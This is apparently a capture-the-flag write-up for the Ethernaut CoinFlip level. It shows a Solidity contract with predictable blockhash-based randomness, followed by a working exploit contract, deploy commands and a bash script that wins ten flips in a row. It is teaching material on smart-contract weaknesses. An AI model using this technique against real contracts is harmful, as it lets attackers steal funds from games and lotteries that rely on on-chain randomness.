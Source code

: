 ## CoinFlip Level Outline

**Difficulty : 3/10**

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)

## Solution
Because the flip is calculated onchain using the previous blockhash, we can predict what the outcome will be by simulating the coinflip on our custom smart contract and submitting the result.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import 'openzeppelin-contracts/contracts/utils/math/SafeMath.sol';

contract FortuneTeller {
    using SafeMath for uint256;
    CoinFlip coinFlip;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _coinFlip) {
        coinFlip = CoinFlip(_coinFlip);
    }

    function predictFuture() public {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        bool prediction = blockValue.div(FACTOR) == 1 ? true : false;

        coinFlip.flip(prediction);
    }
}

interface CoinFlip {
    function flip(bool _guess) external returns (bool);
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:FortuneTeller --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. Create a simple bashscript to flip the coin 10 times
```console
touch flip.sh
```
add the following bash script to `flip.sh`
```bash
#!/bin/bash
for i in {1..10}
do
    cast send $DEPLOYED_ADDRESS "predictFuture()" --gas 80000 --private-key $PRIVATE_KEY
    sleep 20s
    echo Correct Flips : $i
done
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

##### 4. Run `flip.sh`
```console
chmod 777 flip.sh
./flip.sh
```

## Further Reading
How to avoid generating numbers onchain by using [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number)

### [:arrow_left: Back To Main Menu](../README.md)
